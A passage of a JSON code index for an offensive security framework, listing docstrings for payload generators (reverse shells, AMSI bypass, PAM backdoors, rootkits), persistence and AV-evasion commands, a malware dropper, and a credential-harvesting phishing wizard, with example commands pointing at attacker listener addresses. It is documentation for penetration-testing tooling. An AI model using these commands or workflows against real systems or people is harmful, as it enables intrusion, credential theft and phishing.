"do_status_bar", "signature": "def do_status_bar(self, args)"}, {"doc": "Route a goal through the unified orchestrator and print the result.\n\nThe orchestrator picks one of ``daemon``, ``hive`` or ``swan`` and\nnormalises the response into a single dataclass. Use ``--mode`` to\nforce a specific backend; the default ``auto`` routes by\nsignature heuristics.", "kind": "method", "line": 216, "name": "do_orchestrate", "signature": "def do_orchestrate(self, args)"}, {"doc": "Return the bound cmd2 shell or ``None`` if not yet registered.\n\ncmd2 stores the shell in the name-mangled\n``_CommandSet__cmd_internal`` slot and exposes it through the\n``_cmd`` property. Reading ``self._cmd`` triggers the property\nand is the only stable way to retrieve the shell — going through\n``self.__dict__`` returns ``None`` because there is no instance\nattribute by that name.", "kind": "method", "line": 263, "name": "_resolve_shell", "signature": "def _resolve_shell(self)"}, {"kind": "method", "line": 278, "name": "_status_manager", "signature": "def _status_manager(self)"}, {"kind": "method", "line": 284, "name": "_orchestrator", "signature": "def _orchestrator(self)"}, {"kind": "method", "line": 290, "name": "_status_bar_show", "signature": "def _status_bar_show(self, manager)"}, {"kind": "method", "line": 295, "name": "_status_bar_refresh", "signature": "def _status_bar_refresh(self, manager)"}, {"kind": "method", "line": 305, "name": "_status_bar_toggle", "signature": "def _status_bar_toggle(self, manager, enabled)"}, {"kind": "method", "line": 314, "name": "_format_text", "signature": "def _format_text(result)"}]}, {"doc": "Payload arsenal commands — dotnet, reflective DLL, staged delivery, polymorphic, macOS/Linux payloads.  Provides: dotnet_payload          — Generate .NET/C# payloads (reverse shell, beacon, injection, bypass) show dotnet_templates   — List available .NET/C# template names reflective_dll          — Analyze a PE/DLL for reflective loading staged_delivery         — Generate HTA, VBA, XLM, LNK, ISO, VHD delivery artifacts show staged_formats     — List available staged delivery formats polymorphic             — Apply polymorphic mutation to shellcode macos_payload           — Generate macOS .app bundles, persistence, TCC bypass show macos_payloads     — List available macOS payload types linux_advanced_payload  — Generate LD_PRELOAD rootkits, eBPF, PAM backdoors, kernel modules show linux_payloads     — List available Linux advanced payload types", "id": "cli/commands/payload_arsenal.py", "kind": "module", "label": "payload_arsenal.py", "language": "py", "sha256": "836e22c8f7c5bc97", "symbol_count": 7, "symbols": [{"doc": "Dotnet, reflective DLL, staged delivery, polymorphic, macOS/Linux advanced payloads.", "kind": "class", "line": 23, "name": "PayloadArsenalCommandSet", "signature": "class PayloadArsenalCommandSet(LazyOwnCommandSet)"}, {"doc": "Generate a .NET/C# payload.\n\nUsage: dotnet_payload <template> [LHOST=<ip>] [LPORT=<port>] [--format f] [--target exe|dll] [--platform x86|x64|AnyCPU]\n\nTemplates: reverse_tcp, http_beacon, process_injection, amsi_bypass, etw_bypass, token_impersonation\n\nExamples:\n    dotnet_payload reverse_tcp LHOST=10.0.0.1 LPORT=4444\n    dotnet_payload http_beacon LHOST=10.0.0.1 LPORT=443 --format ps1\n    dotnet_payload process_injection shellcode_b64=BASE64 --target exe --platform x64", "kind": "method", "line": 29, "name": "do_dotnet_payload", "signature": "def do_dotnet_payload(self, line)"}, {"doc": "Show payload arsenal items.\n\nUsage: arsenal_show <category>\n\nCategories: dotnet_templates, staged_formats, macos_payloads, linux_payloads", "kind": "method", "line": 114, "name": "do_arsenal_show", "signature": "def do_arsenal_show(self, line)"}, {"doc": "Generate staged delivery artifacts (HTA, VBA, LNK, ISO, VHD).\n\nUsage: staged_delivery <format> [LHOST=<ip>] [LPORT=<port>] [--app-name \"Name\"]\n\nFormats: hta, vba, xlm, lnk, iso, vhd, all\nPhishing: office365, gmail, outlook\n\nExamples:\n    staged_delivery hta LHOST=10.0.0.1 LPORT=443 --app-name \"QuarterlyReport\"\n    staged_delivery all LHOST=10.0.0.1 LPORT=8443\n    staged_delivery office365 LHOST=10.0.0.1 LPORT=443", "kind": "method", "line": 172, "name": "do_staged_delivery", "signature": "def do_staged_delivery(self, line)"}, {"doc": "Apply polymorphic mutation to shellcode.\n\nUsage: polymorphic <shellcode_hex> [--passes N] [--arch x64|x86] [--nop] [--xor] [--compress] [--base64]\n\nExamples:\n    polymorphic fc4883e4f0e8c0000000415141505251564831 --passes 3\n    polymorphic $(cat shellcode.hex) --passes 5 --xor --compress --base64", "kind": "method", "line": 261, "name": "do_polymorphic", "signature": "def do_polymorphic(self, line)"}, {"doc": "Generate macOS payloads (.app bundles, persistence, TCC bypass).\n\nUsage: macos_payload <type> [LHOST=<ip>] [LPORT=<port>] [--app-name \"Name\"]\n\nTypes: app_bundle, launchd, tcc_bypass, osascript, swift, all\n\nExamples:\n    macos_payload app_bundle LHOST=10.0.0.1 LPORT=4444 --app-name \"SystemPreferences\"\n    macos_payload launchd LHOST=10.0.0.1 LPORT=8443\n    macos_payload all LHOST=10.0.0.1 LPORT=4444", "kind": "method", "line": 328, "name": "do_macos_payload", "signature": "def do_macos_payload(self, line)"}, {"doc": "Generate advanced Linux payloads (LD_PRELOAD, eBPF, PAM, kernel module).\n\nUsage: linux_advanced_payload <type> [LHOST=<ip>] [LPORT=<port>]\n\nTypes: ld_preload, ebpf, pam_backdoor, systemd, ssh, kernel_module, motd, udev, all\n\nExamples:\n    linux_advanced_payload ld_preload LHOST=10.0.0.1 LPORT=4444 --hook accept\n    linux_advanced_payload pam_backdoor LHOST=10.0.0.1 LPORT=8443\n    linux_advanced_payload all LHOST=10.0.0.1 LPORT=4444", "kind": "method", "line": 401, "name": "do_linux_advanced_payload", "signature": "def do_linux_advanced_payload(self, line)"}]}, {"doc": "Payload generation commands — list payloads and generate.  Provides: show payloads           — list all registered payloads generate <name> [options] [--format f] [--output path]", "id": "cli/commands/payload_generation.py", "kind": "module", "label": "payload_generation.py", "language": "py", "sha256": "24c9d7dcf080ebbf", "symbol_count": 3, "symbols": [{"doc": "Payload generation and listing.", "kind": "class", "line": 24, "name": "PayloadCommandSet", "signature": "class PayloadCommandSet(LazyOwnCommandSet)"}, {"kind": "method", "line": 30, "name": "_get_factory", "signature": "def _get_factory(self)"}, {"doc": "Generate a payload.\n\nUsage: generate <payload_name> LHOST=<ip> LPORT=<port> [--format f] [--output path]\n\nExamples:\n    generate cmd/unix/reverse_shell LHOST=10.0.0.1 LPORT=4444\n    generate cmd/unix/reverse_shell LHOST=10.0.0.1 LPORT=4444 shell_type=python\n    generate cmd/windows/reverse_powershell LHOST=10.0.0.1 LPORT=4444 --format ps1 --output /tmp/shell.ps1\n\nUse 'show payloads' to list available payloads.", "kind": "method", "line": 37, "name": "do_generate", "signature": "def do_generate(self, line)"}]}, {"doc": "Persistence command set (pending).  Phase 05 — commands for establishing persistence: reverse shells, web shells, backdoors, and implant generation.  Pending status: inherits from :class:`PendingCommandSet`. Promote to :class:`LazyOwnCommandSet` once originals are deleted from ``lazyown.py``.", "id": "cli/commands/persist.py", "kind": "module", "label": "persist.py", "language": "py", "sha256": "983f7988135a5c4b", "symbol_count": 11, "symbols": [{"doc": "Persistence phase commands (pending).", "kind": "class", "line": 26, "name": "PersistenceCommandSet", "signature": "class PersistenceCommandSet(LazyOwnCommandSet)"}, {"doc": "Create web shells (JPG-disguised PHP, p0wny-shell, ASP).", "kind": "method", "line": 33, "name": "do_createwebshell", "signature": "def do_createwebshell(self, line)"}, {"doc": "Create a bash reverse shell script in sessions/.", "kind": "method", "line": 47, "name": "do_createrevshell", "signature": "def do_createrevshell(self, line)"}, {"doc": "Create a Windows reverse shell (PowerShell).", "kind": "method", "line": 61, "name": "do_createwinrevshell", "signature": "def do_createwinrevshell(self, line)"}, {"doc": "Download ConPtyShell and prepare a PowerShell run command.", "kind": "method", "line": 73, "name": "do_conptyshell", "signature": "def do_conptyshell(self, line)"}, {"doc": "Start a pwncat-cs reverse shell listener.", "kind": "method", "line": 89, "name": "do_pwncatcs", "signature": "def do_pwncatcs(self, line)"}, {"doc": "Create a Windows reverse shell executable.", "kind": "method", "line": 99, "name": "do_revwin", "signature": "def do_revwin(self, line)"}, {"doc": "Create WMI Event Subscription persistence (fileless, no disk write).\n\nUsage: wmi_persist [--command <cmd>] [--interval <minutes>] [--name <event_name>]\n\nRegisters __EventFilter + __EventConsumer + __FilterToConsumerBinding\nfor stealthy, fileless persistence. Triggers on system startup or\nat a configurable interval. MITRE: T1546.003 WMI Event Subscription.", "kind": "method", "line": 112, "name": "do_wmi_persist", "signature": "def do_wmi_persist(self, line)"}, {"doc": "Execute a command on a remote host via WMI.\n\nUsage: wmi_lateral [--target <ip>] [--user <user>] [--password <pass>] [--hash <nt_hash>] [--command <cmd>]\n\nUses wmic.exe or impacket-wmiexec for lateral movement.\nSupports pass-the-hash authentication.\nMITRE: T1047 WMI.", "kind": "method", "line": 170, "name": "do_wmi_lateral", "signature": "def do_wmi_lateral(self, line)"}, {"doc": "Create a scheduled task for persistence via WMI.\n\nUsage: wmi_scheduled_task [--name <task_name>] [--command <cmd>] [--trigger <startup|logon|daily|hourly>]\n\nCreates a scheduled task that executes on system startup or user logon.\nMore stealthy than registry Run keys (not monitored by many EDRs).\nMITRE: T1053.005 Scheduled Task.", "kind": "method", "line": 209, "name": "do_wmi_scheduled_task", "signature": "def do_wmi_scheduled_task(self, line)"}, {"kind": "method", "line": 275, "name": "_extract", "signature": "def _extract(args, flag)"}]}, {"doc": "persist commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.", "id": "cli/commands/persist_migrated.py", "kind": "module", "label": "persist_migrated.py", "language": "py", "sha256": "f9c382a3165674c1", "symbol_count": 25, "symbols": [{"kind": "class", "line": 28, "name": "PersistMigratedCommandSet", "signature": "class PersistMigratedCommandSet(LazyOwnCommandSet)"}, {"doc": "Runs `pwncat` with the specified port for listening. SELFINJECT\n\nThis function starts a `pwncat` listener on the specified local port. It can use a port defined in the `lport` parameter or a port provided as an argument.\n\nUsage:\n    pwncatcs <port>\n\n:param line: The port number to use for the `pwncat-cs` listener. If not provided, it defaults to the `lport` parameter.\n:type line: str\n:returns: None\n\nManual execution:\n1. Ensure that `pwncat-cs` is installed and accessible from your command line.\n2. The port number can either be provided as an argument or be assign in the `lport` parameter of the function.\n3. Run the function to start `pwncat-cs` on the specified port.\n\nIf no port is provided as an argument, the function will use the port specified in the `lport` parameter. If a port is provided, it overrides the `lport` value.\n\nAfter starting the listener, the function prints a message indicating that `pwncat-cs` is running on the specified port and another message when the session is closed.\n\nDependencies:\n- `pwncat-cs`: A tool used for creating reverse shells or bind shells.", "kind": "method", "line": 33, "name": "do_pwncat", "signature": "def do_pwncat(self, line)"}, {"doc": "Connects to an ftp host using credentials from a file and a specified port.\n\nThis function performs the following actions:\n1. Retrieves the remote host (`self.params['rhost']`) from the parameters.\n2. Checks if the `self.params['rhost']` is valid using the `check_rhost` function.\n3. Sets the ftp port to the value provided in the `line` parameter.\n4. Checks if the `credentials.txt` file exists in the `./sessions` directory.\n5. Reads credentials (username and password) from the `credentials.txt` file, where each line is formatted as `user:password`.\n6. Constructs and executes an ftp command using `sshpass` to handle password authentication and `ftp` to initiate the connection.\n7. Displays the ftp command being executed.\n\nUsage:\n    ftp <port>\n\n:param line: The port number to use for the ftp connection.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually use this function:\n1. Ensure `sessions/credentials.txt` exists and contains valid ftp credentials in the format `user:password`.\n2. Run the function with the port number as an argument.\n3. The function will attempt to connect to the ftp host using each assign of credentials and the specified port.\n\nNote: Ensure `sshpass` is installed on your system for password-based SSH authentication. If `sshpass` is not available, you may need to install it or use an alternative method for SSH authentication.", "kind": "method", "line": 77, "name": "do_ftp", "signature": "def do_ftp(self, line)"}, {"doc": "Reads credentials from a file, encrypts the password, and executes the RDP connection command.\n\n1. Reads credentials:\n    - Reads the username and password from the `sessions/credentials.txt` file.\n\n2. Encrypts the password:\n    - Uses `remmina --encrypt-password` to encrypt the password obtained from the file.\n\n3. Executes the RDP connection command:\n    - Uses the encrypted password to construct and execute the `remmina -c` command to initiate the RDP connection.\n\n:param line: This function does not use any arguments.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually execute the command:\n- Ensure `sessions/credentials.txt` contains the credentials in the format `username:password`.\n- Run the `rdp` command to read the credentials, encrypt the password, and connect to the RDP server.\nExample usage: `rdp`", "kind": "method", "line": 136, "name": "do_rdp", "signature": "def do_rdp(self, line)"}, {"doc": "Creates and copies a shell command to add a new user, assign a password, add the user to the sudo group, and switch to the user.\nUses backdoor_username, backdoor_password, and backdoor_linux_home from payload.json.\n\n1. Displays the command:\n    - Prints the command to add the user with the configured home directory, assign the password, add the user to the `sudo` group, assign the appropriate permissions, and switch to the user.\n\n2. Copies the command to clipboard:\n    - Uses `xclip` to copy the command to the clipboard for easy pasting.\n\n:param line: This function does not use any arguments.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually execute the command:\n- Copy the command from the clipboard.\n- Run it in a terminal to create the user and assign up the permissions as specified.\nNote: Ensure `xclip` is installed and available on your system.", "kind": "method", "line": 210, "name": "do_grisun0", "signature": "def do_grisun0(self, line)"}, {"doc": "Creates and copies a PowerShell command to add a new user, assign a password, add the user to the Administrators group, and switch to the user.\nUses backdoor_username and backdoor_password from payload.json.\n\n1. Displays the command:\n    - Prints the PowerShell command to add the user, assign the password, add the user to the `Administrators` group, and switch to the user.\n\n2. Copies the command to clipboard:\n    - Uses `clip` to copy the command to the clipboard for easy pasting.\n\n:param line: This function does not use any arguments.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually execute the command:\n- Copy the command from the clipboard.\n- Run it in a PowerShell terminal to create the user and assign the permissions as specified.", "kind": "method", "line": 256, "name": "do_grisun0w", "signature": "def do_grisun0w(self, line)"}, {"doc": "Creates a base64 encoded ASP reverse shell payload and copies it to the clipboard.\n\n1. Checks if a base64 encoded payload is provided:\n    - If no payload is provided, displays an error message and exits the function.\n\n2. If a payload is provided:\n    - Creates an ASP script that uses `WScript.Shell` to execute a PowerShell command encoded in base64.\n    - The created ASP script writes the result of the PowerShell command to the response output.\n    - Uses `xclip` to copy the ASP script to the clipboard with the provided base64 encoded payload.\n\n:param line: The base64 encoded payload to be used in the ASP reverse shell.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually create the ASP payload:\n- Ensure you have the base64 encoded payload ready.\n- Use `xclip` to copy the provided command to the clipboard.\n\nNote: Ensure `xclip` is installed and available on your system. For help on creating the base64 encoded payload, see `help winbase64payload`.", "kind": "method", "line": 300, "name": "do_asprevbase64", "signature": "def do_asprevbase64(self, line)"}, {"doc": "Generate a PHP backdoor using Weevely, protected with the given password.\n\nThis function generates a PHP backdoor file using the specified password. It ensures that Weevely is installed on the system before attempting to generate the backdoor. If Weevely is not present, it will be installed automatically.\n\nUsage:\n┌─[LazyOwn 127.0.0.1 ~/LazyOwn][10.10.10.10][http://victim.local/]\n└╼ $ weevelygen s3cr3t\n\nParameters:\nline (str): The password to protect the generated PHP backdoor.\n\nReturns:\nNone\n\nRaises:\nprint_error: If the password argument is not provided.\nprint_warn: If Weevely is not installed and needs to be installed.\n\nExample:\nTo generate a PHP backdoor protected with the password 's3cr3t', use the following command:\n$ weevelygen s3cr3t", "kind": "method", "line": 338, "name": "do_weevelygen", "signature": "def do_weevelygen(self, line)"}, {"doc": "Connect to PHP backdoor using Weevely, protected with the given password.\n\nThis function Connect to PHP backdoor file using the specified password. It ensures that Weevely is installed on the system before attempting to generate the backdoor. If Weevely is not present, it will be installed automatically.\n\nUsage:\n┌─[LazyOwn 127.0.0.1 ~/LazyOwn][10.10.10.10][http://victim.local/]\n└╼ $ weevely http://victim.local/weevely.php s3cr3t\n\nParameters:\nline (str): the url to Weevely shell and the password to protect the generated PHP backdoor.\n\nReturns:\nNone\n\nRaises:\nprint_error: If the password argument is not provided.\nprint_warn: If Weevely is not installed and needs to be installed.\n\nExample:\nTo generate a PHP backdoor protected with the password 's3cr3t', use the following command:\n$ weevelygen s3cr3t", "kind": "method", "line": 378, "name": "do_weevely", "signature": "def do_weevely(self, line)"}, {"doc": "Creates a backdoored executable using `backdoor-factory`.\n\nThis function checks if `backdoor-factory` is installed, installs it if necessary, and then uses it to\ninject a reverse shell payload into a specified binary file. The binary is backdoored with a\nreverse shell payload that connects back to a specified host and port.\n\n:param line: The absolute path to the file that will be backdoored. If not provided, the user is prompted\n            to enter the path.\n\n:returns: None\n\nManual execution:\nTo manually create a backdoored executable, use the following command:\n    backdoor-factory -f <file_path> -H <self.params['lhost']> -P <lport> -s reverse_shell_tcp_inline -J -a -c -l 128 -o <output_file>\n\nReplace `<file_path>` with the path to the binary you want to backdoor, `<self.params['lhost']>` with the IP address of\nthe attacker’s machine, and `<lport>` with the port number to listen on. The `<output_file>` is the path\nwhere the backdoored binary will be saved.\n\nFor example:\n    backdoor-factory -f /usr/share/windows-binaries/plink.exe -H 192.168.1.202 -P 4444 -s reverse_shell_tcp_inline -J -a -c -l 128 -o sessions/backdoor_factory.exe", "kind": "method", "line": 424, "name": "do_backdoor_factory", "signature": "def do_backdoor_factory(self, line)"}, {"doc": "Generates payloads using MSFvenom Payload Creator (MSFPC).\n\nThis function checks if `msfpc` is installed and installs it if necessary. It then runs `msfpc`\nwith the specified parameters to create a payload for penetration testing.\n\n:param line: Not used in this implementation but reserved for future use.\n\n:returns: None\n\nManual execution:\nTo manually generate a payload using MSFPC, use the following command:\n    msfpc <TYPE> <DOMAIN/IP> <PORT> <CMD/MSF> <BIND/REVERSE> <STAGED/STAGELESS> <TCP/HTTP/HTTPS/FIND_PORT> <BATCH/LOOP> <VERBOSE>\n\nReplace the placeholders with the desired values. For example:\n    msfpc windows 192.168.1.10 4444 reverse stageless tcp verbose\n\nExample usage:\n    msfpc windows 192.168.1.10        # Windows & manual IP.\n    msfpc elf bind eth0 4444          # Linux, eth0's IP & manual port.\n    msfpc stageless cmd py https      # Python, stageless command prompt.\n    msfpc verbose loop eth1           # A payload for every type, using eth1's IP.\n    msfpc msf batch wan               # All possible Meterpreter payloads, using WAN IP.", "kind": "method", "line": 470, "name": "do_msfpc", "signature": "def do_msfpc(self, line)"}, {"doc": "Generates payloads using Ivy with various options. Ivy is a payload creation framework for the execution of arbitrary VBA (macro) source code directly in memory. Ivy’s loader does this by utilizing programmatical access in the VBA object environment to load, decrypt and execute shellcode.\n\nThis function checks if `Ivy` is installed and installs it if necessary. It then runs `Ivy`\nwith the specified parameters to create various payloads.\n\n:param line: Not used in this implementation but reserved for future use.\n\n:returns: None\n\nManual execution:\nTo manually generate a payload using Ivy, use the following command:\n    ./Ivy <OPTIONS>\n\nReplace the placeholders with the desired values. For example:\n    ./Ivy -Ix64 test64.vba -Ix86 test32.vba -P Inject -O SampleInject.js\n    ./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -process64 C:\\windows\\system32\\notepad.exe -process32 C:\\windows\\SysWOW64\\notepad.exe -O stageless.js\n\nExample usage:\n    ivy staged_inject -Ix64 test64.vba -Ix86 test32.vba -P Inject -O SampleInject.js\n    ivy stageless_local -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O stageless.js\n    ivy one_liner -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -O test.png -stageless", "kind": "method", "line": 551, "name": "do_ivy", "signature": "def do_ivy(self, line)"}, {"doc": "Generates payloads using Veil-Evasion with various options. Veil-Evasion is a payload creation framework\nfor generating payloads that evade antivirus detection. This function checks if `Veil-Evasion` is installed\nand installs it if necessary. It then runs `Veil-Evasion` with the specified parameters to create various payloads.\n\n:param line: Not used in this implementation but reserved for future use.\n\n:returns: None\n\nManual execution:\nTo manually generate a payload using Veil-Evasion, use the following command:\n    ./Veil-Evasion.py -p <PAYLOAD> --<OPTION> <VALUE>\n\nReplace the placeholders with the desired values. For example:\n    ./Veil-Evasion.py -p python/meterpreter/rev_https LHOST=192.168.1.100 LPORT=443\n\nExample usage:\n    veil python_meterpreter_rev_https LHOST=192.168.1.100 LPORT=443\n    veil ruby_meterpreter_rev_tcp LHOST=192.168.1.100 LPORT=4444", "kind": "method", "line": 651, "name": "do_veil", "signature": "def do_veil(self, line)"}, {"doc": "Executes ScareCrow with various options for bypassing EDR solutions and executing shellcode.\nto create the shellcode.bin you need run venom or run lazymsfvenom, or run msfvenom yourself :D\n:param line: Not used directly but reserved for future use.\n:returns: None", "kind": "method", "line": 725, "name": "do_scarecrow", "signature": "def do_scarecrow(self, line)"}, {"doc": "Generate a reverse shell in various programming languages.\n\nThis function prompts the user to choose a reverse shell type (Bash, Python, NetCat, PHP, Ruby, Perl, Telnet, NodeJS, Golang, PowerShell)\nand then asks for the necessary parameters (IP and port). Based on the user's input, it generates the corresponding\nreverse shell command.\n\n:param line: Not used in this implementation.\n:returns: None", "kind": "method", "line": 843, "name": "do_generate_revshell", "signature": "def do_generate_revshell(self, line)"}, {"doc": "Execute the Dr0p1t tool to create a stealthy malware dropper.\n\nThis function prompts the user to input the necessary parameters for\ngenerating a dropper, including the malware URL, persistence options,\nand additional configurations. Based on the user's input, it constructs\nthe command and executes it.\n\n:param line: Not used in this implementation.\n:returns: None", "kind": "method", "line": 909, "name": "do_dr0p1t", "signature": "def do_dr0p1t(self, line)"}, {"doc": "Creates and deploys a paranoid Meterpreter payload and listener with SSL/TLS pinning and UUID tracking.\n\nThis function performs the following actions:\n1. Generates a self-signed SSL/TLS certificate for payload encryption.\n2. Creates either staged or stageless Meterpreter payloads with UUID tracking and TLS pinning.\n3. Configures and launches a Metasploit listener for the payload.\n\nParameters:\nline (str): Command arguments specifying target configurations.\n            Expected format:\n                - self.params['rhost'] self.params['lhost'] self.params['domain'] subdomain\n\nReturns:\nNone", "kind": "method", "line": 972, "name": "do_paranoid_meterpreter", "signature": "def do_paranoid_meterpreter(self, line)"}, {"doc": "Executes the SEToolKit workflow to generate a Meterpreter payload\nand configure the multi-handler using LHOST and LPORT from self.params.\n\nUsage:\n    do_setoolKits\n\nArguments:\n    None: LHOST and LPORT are retrieved from self.params.\n\nWorkflow:\n    1. Launches SEToolKit.\n    2. Navigates to option 1 (Social-Engineering Attacks).\n    3. Selects option 9 (Powershell Alphanumeric Shellcode Injector).\n    4. Configures LHOST and LPORT using values from self.params.\n    5. Generates a Meterpreter reverse HTTPS payload.\n    6. Configures a multi-handler to listen for incoming connections.", "kind": "method", "line": 1060, "name": "do_setoolKits", "signature": "def do_setoolKits(self, line)"}, {"doc": "Uses the darkarmour tool to generate an undetectable version of a PE executable.\n\nThis function performs the following actions:\n1. Verifies the presence of darkarmour; if not installed, it clones the repository and installs dependencies.\n2. Prompts the user for various options to customize the tool's behavior.\n3. Constructs a command to run darkarmour with the selected options.\n4. Executes darkarmour to generate the output file with the desired level of obfuscation.\n\nParameters:\nline (str): Command line arguments for the tool.\n\nReturns:\nNone", "kind": "method", "line": 1093, "name": "do_darkarmour", "signature": "def do_darkarmour(self, line)"}, {"doc": "Send special string to trigger a reverse shell, with the command 'c2 client_name'\ncreate a listener shell script to drop the reverse shell in python3\nArgs:\n    line (str): input line not used\n\nReturns:\n    None", "kind": "method", "line": 1161, "name": "do_knokknok", "signature": "def do_knokknok(self, line)"}, {"doc": "Configures and starts a listener for a specified victim.\n\nThis function takes a command line input to configure and start a listener for a specified victim.\nThe input should include the victim ID, the choice of listener type, and optionally the port numbers.\nThe function then constructs the appropriate command to start the listener and assigns the necessary\nparameters.\n\nArgs:\n    line (str): The command line input containing the victim ID, listener type, and optional port numbers.\n\nReturns:\n    None\n\nRaises:\n    None\n\nExample:\n    >>> listener_go victim1 2 1337 7777", "kind": "method", "line": 1196, "name": "do_listener_go", "signature": "def do_listener_go(self, line)"}, {"doc": "Configures and starts a listener for a specified victim.\n\nThis function takes a command line input to configure and start a listener for a specified victim.\nThe input should include the victim ID, the choice of listener type, and optionally the port numbers.\nThe function then constructs the appropriate command to start the listener and assigns the necessary\nparameters.\n\nArgs:\n    line (str): The command line input containing the victim ID, listener type, and optional port numbers.\n\nReturns:\n    None\n\nRaises:\n    None\n\nExample:\n    >>> listener_py victim1 2 1337 7777", "kind": "method", "line": 1263, "name": "do_listener_py", "signature": "def do_listener_py(self, line)"}, {"doc": "Creates a systemd service file for a specified binary and generates a script to enable and start the service.\n\nThis function takes the name of a binary as input, creates a systemd service file for it, and generates a shell script\nto enable and start the service. The script is saved in the sessions directory and a command is provided to execute\nthe script remotely via SSH.\n\nArgs:\n    line (str): The command line input containing the name of the binary. If an absolute path is not provided,\n                a default path is used.\n\nReturns:\n    None\n\nRaises:\n    None\n\nExample:\n    >>> service my_binary_name", "kind": "method", "line": 1330, "name": "do_service", "signature": "def do_service(self, line)"}, {"doc": "Sends a magic packet to the Chinese malware.\nThe function extracts self.params['rhost'] and rport from self.params['rhost'] and self.params['rport'], respectively.", "kind": "method", "line": 1403, "name": "do_toctoc", "signature": "def do_toctoc(self, line)"}, {"doc": "Generate a C2 beacon profile with traffic morphing and domain fronting.\n\nUsage:\n    beaconcfg generate [name]        Generate a malleable C2 profile\n    beaconcfg cdn [provider]         List CDN domains for fronting\n    beaconcfg worker <c2_host> <c2_port> [token]  Generate Cloudflare Worker proxy\n    beaconcfg dns <data> <domain>    Encode data as DNS tunnel queries", "kind": "method", "line": 1426, "name": "do_beaconcfg", "signature": "def do_beaconcfg(self, line)"}]}, {"doc": "Phishing Wizard command set.  End-to-end phishing campaign wizard with step-by-step interactive flow: target profiling -> template selection -> landing page generation -> sending -> tracking -> credential capture -> automatic config update.", "id": "cli/commands/phishing_wizard.py", "kind": "module", "label": "phishing_wizard.py", "language": "py", "sha256": "4777c746a4c776c4", "symbol_count": 17, "symbols": [{"doc": "End-to-end phishing campaign wizard.", "kind": "class", "line": 183, "name": "PhishingWizardCommandSet", "signature": "class PhishingWizardCommandSet(LazyOwnCommandSet)"}, {"doc": "Generate target email addresses from common role prefixes.\n\nArgs:\n    domain: Target domain name.\n\nReturns:\n    List of email addresses.", "kind": "function", "line": 510, "name": "_profile_targets", "signature": "def _profile_targets(domain)"}, {"doc": "Save target list to disk.\n\nArgs:\n    campaign_dir: Campaign directory path.\n    targets: List of email addresses.", "kind": "function", "line": 522, "name": "_save_targets", "signature": "def _save_targets(campaign_dir, targets)"}, {"doc": "Log a click event.\n\nArgs:\n    campaign_dir: Campaign directory path.\n    ip: Source IP address.\n    user_agent: User-Agent header.", "kind": "function", "line": 533, "name": "_log_click", "signature": "def _log_click(campaign_dir, ip, user_agent)"}, {"doc": "Provision a machine-local secret key for credential encryption.\n\nCreates ``sessions/.secret_key`` with owner-only permissions when it is\nabsent so the CLI campaign can encrypt harvested credentials without a\npre-existing C2 bootstrap.\n\nReturns:\n    None", "kind": "function", "line": 551, "name": "_ensure_session_key", "signature": "def _ensure_session_key()"}, {"doc": "Log captured credentials encrypted at rest and hashed in the audit log.\n\nArgs:\n    campaign_dir: Campaign directory path.\n    email: Captured email/username.\n    password: Captured password.\n    ip: Source IP address.", "kind": "function", "line": 569, "name": "_log_credentials", "signature": "def _log_credentials(campaign_dir, email, password, ip)"}, {"doc": "Send an email via SMTP.\n\nArgs:\n    server: SMTP server hostname.\n    port: SMTP server port.\n    username: SMTP username.\n    password: SMTP password.\n    to_email: Recipient address.\n    from_addr: Sender display address.\n    subject: Email subject.\n    html_body: HTML email body.\n\nReturns:\n    True if sent successfully.", "kind": "function", "line": 603, "name": "_send_smtp_email", "signature": "def _send_smtp_email(server, port, username, password, to_email, from_addr, subject, html_body)"}, {"doc": "Extract a ``--flag <value>`` pair from a list of arguments.", "kind": "function", "line": 702, "name": "_extract_flag", "signature": "def _extract_flag(args, flag)"}, {"doc": "Interactive end-to-end phishing campaign wizard.\n\nUsage: phish_wizard\n\nWalks through: target profiling -> template selection -> landing page\ngeneration -> email sending -> credential harvesting.", "kind": "method", "line": 190, "name": "do_phish_wizard", "signature": "def do_phish_wizard(self, line)"}, {"doc": "Start a lightweight HTTP server for phishing landing pages.\n\nUsage: phish_serve <campaign_id> [--port <port>]\n\nServes landing pages from sessions/phishing_<campaign_id>/index.html\nand handles credential harvesting at /harvest/<campaign_id>.", "kind": "method", "line": 361, "name": "do_phish_serve", "signature": "def do_phish_serve(self, line)"}, {"doc": "Show campaign results and captured credentials.\n\nUsage: phish_report <campaign_id>\n\nDisplays click count, captured credentials, and campaign stats.", "kind": "method", "line": 443, "name": "do_phish_report", "signature": "def do_phish_report(self, line)"}, {"doc": "Launch a phishing campaign against a target domain.\n\nProfiles targets, generates email templates, clones landing pages,\nand tracks clicks and credential harvesting. Supports built-in\ntemplates (microsoft_365_login, sharepoint_share, password_reset,\nvoicemail_notification, hr_policy_update) and custom templates.\n\nModes:\n    credential_harvest  - Clone login pages and collect credentials.\n    payload_delivery    - Send weaponized attachments.\n    callback_beacon     - Embed C2 callback URLs for initial access.\n\nUsage:\n    phisher <domain> <template> [mode]\n    phisher target.com microsoft_365_login\n    phisher target.com password_reset credential_harvest\n    phisher target.com custom_template.json\n\nHarvested credentials are saved to ``sessions/phishing_credentials.txt``.\n\n:param line: Domain, template name, and optional mode.\n:type line: str\n:return: None", "kind": "function", "line": 637, "name": "do_phisher", "signature": "def do_phisher(self, line)"}, {"kind": "class", "line": 388, "name": "PhishingHandler", "signature": "class PhishingHandler(BaseHTTPRequestHandler)"}, {"kind": "method", "line": 389, "name": "log_message", "signature": "def log_message(self, format)"}, {"kind": "method", "line": 392, "name": "do_GET", "signature": "def do_GET(self)"}, {"kind": "method", "line": 407, "name": "do_POST", "signature": "def do_POST(self)"}, {"kind": "method", "line": 427, "name": "do_OPTIONS", "signature": "def do_OPTIONS(self)"}]}, {"doc": "Intelligent Pivoting command set.  Covers automatic network discovery, dynamic tunnel setup, and multi-hop pivot chain management for lateral movement through compromised hosts.", "id": "cli/commands/pivoting.py", "kind": "module", "label": "pivoting.py", "language": "py", "sha256": "2e97fe6af4a00bed", "symbol_count": 14, "symbols": [{"doc": "Automatic pivoting and multi-hop tunnel management.", "kind": "class", "line": 37, "name": 